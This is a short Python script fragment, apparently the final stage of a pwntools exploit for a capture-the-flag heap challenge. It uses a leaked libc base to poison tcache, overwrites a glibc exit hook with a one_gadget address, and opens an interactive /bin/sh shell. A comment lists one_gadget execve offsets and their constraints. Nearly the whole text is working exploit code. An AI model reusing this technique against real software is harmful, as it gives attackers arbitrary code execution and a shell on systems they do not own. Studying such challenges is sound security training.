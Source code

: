 ```python
lg('libc_base',libc_base)
setid(0)
setmode1(0x8)# tcache
pray()
exit_hook = libc_base +0x222f68
setmode0(p64(exit_hook))
role(0)
sla("choice>> ",6)
sla("never pray again!",p64(libc_base+0xe3b2e))

'''
0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b31 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
p.interactive()
```



